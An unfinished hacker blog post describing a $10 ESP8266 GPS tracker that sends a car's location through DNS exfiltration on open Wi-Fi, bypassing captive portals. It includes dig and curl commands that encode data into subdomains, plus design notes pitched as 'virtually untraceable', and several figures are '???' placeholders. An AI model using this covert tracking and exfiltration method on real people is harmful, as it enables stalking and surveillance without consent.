







<iframe width="100%" height="340" src="https://www.youtube.com/embed/H0Nwff0KDJ0?start=151" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


<hr>

*This article is incomplete! If you're reading this, you're probably not allowed to >:(*

## Low-Cost Tracking Challenge
In a recent Hak5 episode, I took part in a challenge to track our elusive friend, Irish, and determine the various places he visited throughout the day.  

Since low-cost hardware & disposable signals intelligence is a core part of my projects, I challenged myself to create a tracker in the smallest practical footprint, and designed a $10 device that uses *only* WiFi to provide location updates once planted on Irish's car.

Using DNS Exfiltration, [CanaryTokens](https://canarytokens.org), and an ESP8266 with specialized low-power hardware, I created a motion activated tracker that could transmit intermittent location updates, by connecting to open Wi-Fi networks that Irish would drive past.

In this post, I'll talk about the design process of DNS DriveBy: a $10 proof-of-concept & wardriving technique that uses open Wi-Fi networks to provide location data, Wi-Fi reconnaissance, and other telemetry.


###### Resources
- [Source Code: GitHub](https://github.com/alexlynd/DNS-DriveBy)

## Mapping WiFi Devices with Wardriving
Wardriving is my favorite lazy reconnaissance technique, since I can aimlessly [skate around]() and create an interactive map of vulnerable networks, IOT products, and various other devices in our wireless landscape.  

I've toyed with the idea of creating "disposable wardriving payloads" that I can slap on (my) car or a neighborhood cat (or anything that moves really), so I could get even lazier with collecting WiFi intelligence - and created a [$10 wardriving rig]() using minimal components, making it accessible for anyone to replicate.  

I've used it to demonstrate how hackers can [phish your company with a mail parcel](), and even [strapped it to a drone for warflying]() - but one obvious limitation lies in its inability to provide real-time telemetry for tracking applications, since it only uses a Wi-Fi radio.



While I *could* connect a SIM card module, this adds additional hardware and a cost barrier to my design - and also makes it more easily traceable if discovered.

So I wondered, would it be possible to use un-authenticated Wi-Fi from coffee shops or setup networks that it drives past to upload wardriving data & GPS coordinates intermittently?

## Bypass Captive WiFi Portals with DNS
The answer is yes, but obviously it wasn't as simple that - I found that most of the open networks I encountered had a captive portal that requires you to input an email address or some other nonsense before you can actually connect to the web.

However, my friend [Kody]() suggested I look into DNS requests to bypass the captive portal using a well-known technique called [DNS Exfiltration](), which allows hackers to sneak sensitive information out of a network by hiding data inside of a domain name instead of a typical web request.

This works by making a DNS request to a domain name like `alexlynd.com`, but prepending a subdomain like `<password_here>.alexlynd.com` - so that way I can retrieve the password (or other sensitive information) on my server, by looking at the nameserver logs.



While this is typically used to bypass poorly-configured firewalls for data exfiltration, I can also take advantage of this technique to sneak our wardriving data **into** the network as well!  

Thanks to poor ingress filtering, I discovered that most open networks allowed me to resolve DNS requests without "fully connecting".

## CanaryTokens as a GPS Database
[CanaryTokens](https://canarytokens.org) is an awesome service providing "honeypot tokens" that make it easy to create bugged documents, images, and other sorts of tokens for ensnaring hackers & creeps on your network.

Their [DNS token]() service makes it extremely easy to try out exfiltration without setting up a custom web server, and the dashboard interface also makes it easyto view the exfiltrated data! 

To test this out, I connected to my local coffee shop Wi-Fi from my laptop, without entering my info or leaving the captive portal login, meaning I was unable to access the internet.

After generating a DNS token (on my phone), I made a request to the unique token url using `dig` (on my laptop), which successfully resolves!
```
dig canarytokens.org/your_token_here NS
```


I also get an email alert that my CanaryToken has been triggered, and a hit on the dashboard monitor.

In order to exfiltrate data to the dashboard, CanaryTokens specifices we prepend a random 2 digit number with `G`, and a [base32 encoded subdomain](), so I used an online converter to translate `meow123` to base 32: `NVSW65ZRGIZQ` and made a request to the following url:
```
curl NVSW65ZRGIZQ.G69.canarytokens.org/your_token_here 
```


And it worked!  The last step was to create the hardware to log & convert GPS coordinates into base32 encoded strings, and automatically push that data through nearby open Wi-Fi networks.

## ESP8266 Wardriving Rig for $10

###### Breadboarding
The [ESP8266]() is my favorite low-cost WiFi microcontroller for its attack & reconnaissance capabilities, and I chose the minimal [ESP-01]() form-factor to keep my tracker footprint as small as possible.  

Paired with a [NEO-6M GPS module](), I started by creating a breadboard prototype to test how many coordinates could be logged to the ESP8266's internal memory.



###### Memory Management
I found that storing GPS coordinates in an array quickly ate up heap space, causing overflows since the ESP8266 only has ???MB of internal RAM - meaning I can only store around ??? coordinates on-hand before it crashes.

To mitigate this, I implemented a queue that pushes old coordinates to the internal 1KB ROM using the [SPI Flash Filesystem]() (SPIFFS), which also allows me to save data in case of a power loss or reset.  I also reduced GPS polling to gather coordinates every 15 seconds, which allows me to cache ~??? coordinates for up to ??? hours before encountering an open network!


###### Low-Power Hardware
To keep the board powered for long enough to provide intel on Irish's whereabouts, implementing low-power hardware was necessary to conserve battery while his car was sitting idle.  Luckily, the ESP8266 comes with a low-power mode that brings power consumption down to around 150μA, which can be invoked with the following function:
```
ESP.deepsleep();
```  
In order to "wake up" the ESP8266, a delay is typically used with this function, which grounds the `reset` pin using `GPIO0` - but since I wanted to trigger a reset when motion is detected from a shake sensor, this was tricky since the onboard I/O pins are disabled in deep sleep mode.

Triggering the reset when Irish's car starts up was as simple as adding a shake sensor between `reset` and `ground` - but in order to prevent an accidental reset while the device is powered up, I used a [JFET transistor]() as a [normally-closed switch]() to electronically "disconnect" the shake sensor while the device is in motion.



###### Final Prototype
To piece it all together, I soldered all my components on a perfboard, and implemented a cheap BMS using a voltage regulator & an 1800maH LiPo battery that gives me around ??? hours of non-stop reconnaissance (at a current draw around ???mah).



| Essential Components | Notes | Cost |
|----|----|----|
|[WiFi Microcontroller (ESP8266)]()|I use an ESP-01 module for this prototype, but any other ESP8266 will work.|$2|
|[GPS Module (NEO-6M)]()||$3|

| Other Components | Notes | Cost |
|----|----|----|
|[3.7V LiPo Battery]()|||
|[LDO]()|||
|[Shake Sensor]()|Wakes up ESP8266 from Deep Sleep when motion is detected||
|[JFET (N-Type)]()|This acts as a "switch" to prevent accidental resets while chip is powered up.||
|[Slide Switch (SPDT)]()|||
|[Perfboard]()|||

To protect the electronics & provide a large enough surface to adhere to Irish's car, I used FreeCAD to whip up a minimal 2-part enclosure that you can [download here]().



**Full assembly guide and DIY kit coming soon.**

## Tracking Experiment Results
To test out the prototype, I enabled an open Wi-Fi network on my phone and drove around to see if I could get a consistent log of GPS coordinates along my route.  Since it's designed to cache data while no open networks are available, I turned off the hotspot at random intervals to see if I could still receive those coordinates.

I initially faced some issues with the [watchdog timer]() triggering while it attempted to scan for open networks, and heap overflows while "multitasking" between GPS logging & creating DNS requests - but eventually was able to get a pretty robust prototype working!


The next day, Kody, Michael, and I deployed our tracking systems on Irish, each using a different approach and reconnaissance style:  
- Michael used off-the shelf trackers and consumer products such as a [Tile tracker]()
- Kody used out-of-the-box hacker hardware and a tricky QR code phishing attack to track Irish using Wi-Fi probes from his phone
- I used my skills as a hardware developer to create a low-cost, virtually untracable implant to give me passive location updates


At the end of the day, I checked my CanaryTokens dashboard and had a couple hundred hits from Irish's excursion around East LA!  

In order to turn this data into something useful, I downloaded the coordinates as a `csv` file and created a simple Python script to visualize it through [folium]().  

Since the implant was placed on Irish's car, this map only provides me with insight to the general areas that he visited - but I was still able to see that he stopped at Forest Lawn, and took a visit to the Glendale Galleria!

<iframe width="560" height="315" src="https://www.youtube.com/embed/H0Nwff0KDJ0?start=151" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


## Implications & Future Improvements
###### Limitations
While DNS DriveBy doesn't provide real-time GPS updates like an off-the-shelf solution would, my prototype was able to gather equally insightful data on the places Irish visited, for a much cheaper and less traceable footprint - since a SIM card or GPS Tracker UID could potentially be used to determine the original subscriber. 

The trade-off of course is relying on the presence of open Wi-Fi networks to provide telemetry, and the infrequent, intermittent updates - but given that the target (or wardriving neighborhood cat) is driving through somewhat urban areas, the density of open Wi-Fi networks should be modest.  If the target is frequenting certain locations, it's also possible to hard-code known credentials for specific home/work networks as well!

###### Improvements


To make the design more robust and easier for beginners to assemble, I started designing a PCB kit that includes all the project components, which can also be used try out some of my other Signals Intelligence projects!

Using the [D1 Mini]() ESP8266 form-factor, this design allows for easy plug-and-play expansion with various [D1 hardware add-ons](), and also has a 4MB flash chip which can log around ??? more coordinates than the ESP-01.

###### Conclusion & Future Ideas
While this project can be used nefariously, the barrier to entry of creating & configuring one of these devices is a lot of work, and probably not worth the erratic updates for an attacker to want to implant this on your car or person.  

However in scope of the original "lazy wardriving" PoC, this demo was a success and provides groundwork for my future telemetry-enabled & wireless intel demonstrations!  In future iterations, I hope to take this ridiculous project further by removing the GPS, and use **only** a Wi-Fi connection to determine rough location whereabouts, through assisted GPS and online wardriving databases.

If you want to follow updates on this project and more, check out my [Twitter]() and consider [donating]() to support my open-source work!  


